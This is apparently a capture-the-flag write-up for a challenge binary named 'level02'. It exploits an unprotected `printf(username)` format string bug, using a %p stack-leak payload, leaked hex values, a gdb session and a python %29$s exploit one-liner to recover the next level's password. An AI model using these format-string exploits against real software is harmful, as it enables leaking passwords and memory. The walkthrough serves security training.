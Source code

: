 # level02

The level02 has only one main function, which reads the stdin.

We see that the program opens the file containing the desired password, and that the contents of the file are stored on the stack.

The function expects a username and password, but there's no way to make an overflow this time.

We can see a bash system call, but to enter the if, we need to enter the level03 password...

On the other hand, at the end of the code, we can see an unprotected printf call : `printf(username);`.

This is the vulnerability that we're going to exploit to recover our password. All we need to do is use %p to display the values in the stack.  
The various variables are stored on the stack from top to bottom. All we need to do is locate our buffer, which is declared just after username, and move up 5 values (as we read 41 characters):
```bash
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
--[ Password: *****************************************
AAAAA 0x7fffffffe4f0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x7025204141414141 0x2520702520702520 0x2070252070252070 0x7025207025207025  does not have access!
```

And here are our hexadecimal values:
```
0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
0x48336750664b394d
```

Now we just need to reverse the order and convert (we made a program for this purpose : `decrypt.go`) our values to get our password!

```bash
go run decrypt.go 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
```

There's an other way to get the password. It is possible to use a %s by inputting the address of the password on the stack.

To find the address we can use gdb. Reading the disassembly, we can find the location on this line: `lea    -0xa0(%rbp),%rax`.

So we can get the address like so:

```gdb
(gdb) b main
Breakpoint 1 at 0x400818
(gdb) r
Starting program: /home/users/level02/level02 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000000000400818 in main ()
(gdb) x/x $rbp-0xa0
0x7fffffffe530:	0x00000000
```

Knowing that the username is located as the "28th parameter" for printf, here's the %s exploit:
```bash
python -c 'print "%29$s   " + "\x7f\xff\xff\xff\xe5\x30"[::-1] + "\n"' | /home/users/level02/level02
```
